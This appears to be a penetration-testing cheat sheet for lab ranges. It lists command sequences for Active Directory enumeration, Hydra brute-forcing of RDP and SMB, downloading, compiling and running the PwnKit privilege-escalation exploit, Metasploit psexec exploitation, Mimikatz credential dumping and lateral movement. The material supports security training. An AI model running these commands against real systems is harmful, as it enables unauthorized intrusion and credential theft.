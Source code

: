 # ****1. Active Directory Range****
Goal: Assess the security posture of Active Directory environments.

## **Tools and Commands**
**1.1 Nmap for Initial Enumeration**
Identify active ports and services to locate the Domain Controller.
- nmap -sS -p- -T4 -A -v 192.168.1.0 
- nmap -p445 --script smb-enum-shares,smb-enum-users 192.168.1.0 

**1.2 NBTSTAT for NetBIOS Enumeration**
- Confirm the NetBIOS name and domain.
- nbtstat -A 192.168.1.0

**1.3 Hydra for Brute Force**
Attempt brute force on RDP or SMB services to gain credentials.
- hydra -l <username> -P <password_file> rdp://192.168.1.0
- hydra -l <username> -P <password_file> smb://192.168.1.0

**Key Tip: Use CrackMapExec to enumerate SMB shares and check password policies.**
- crackmapexec smb 192.168.1.0 -u <username> -p <password>

# ****2. Binary Exploitation Range****
Goal: Identify and exploit vulnerabilities in binaries for privilege escalation or arbitrary code execution.

## **Tools and Commands**
**2.1 GDB for Binary Analysis**
Debug the binary and find memory vulnerabilities.
- gdb ./binary  
- break main  
- run  
- info registers  

**2.2 PwnKit for Privilege Escalation**
- Leverage a known exploit to escalate privileges.
- wget https://github.com/ly4k/PwnKit/raw/main/pwnkit.c  
- gcc pwnkit.c -o pwnkit  
- ./pwnkit  

**2.3 BinWalk for Firmware Analysis**
- Extract and analyze embedded files from firmware images.
- binwalk -e FileOne.bin  
- cd _FileOne.bin.extracted  

#**3. CTF Range**
Goal: Compromise target machines and retrieve sensitive information.

## **Tools and Commands**
**3.1 Nmap and Dirb for Web Enumeration**
- Enumerate HTTP services and find hidden directories.
- nmap -sS -p80,443 -A 192.168.1.0 
- dirb http://192.168.1.0 

**3.2 WPScan for WordPress Vulnerabilities**
Scan for vulnerable plugins and themes.
- wpscan --url http://192.168.1.0  --enumerate p  

**3.3 Metasploit for Exploitation**
Exploit SMB services using the PSExec module.
- use exploit/windows/smb/psexec  
- set RHOSTS 192.168.1.0 
- set SMBUser <username>  
- set SMBPass <password>  
- exploit  

# **4. IoT Range**
Goal: Analyze IoT firmware for sensitive data or configuration flaws.

**Tools and Commands**
**4.1 Firmware Extraction with BinWalk**
Identify and extract compressed files.
- binwalk -e IOT.bin  

**4.2 File Analysis**
Search for sensitive configuration files.
- grep -i "password" romfile.cfg  
- cat romfile.cfg | grep admin  

# **5. Post-Exploitation and Privilege Escalation Range**
Goal: Maintain access and escalate privileges on compromised systems.

## **Tools and Commands**
**5.1 CrackMapExec for Lateral Movement**
Enumerate and authenticate across the network.
- crackmapexec smb 192.168.1.0 -u <username> -p <password> --shares  

**5.2 Mimikatz for Credential Dumping**
Retrieve plaintext passwords and hashes.
- mimikatz.exe  
- privilege::debug  
- sekurlsa::logonpasswords  

**5.3 Privilege Escalation on Linux**
Enumerate sudo permissions and escalate.
- sudo -l  
- sudo su

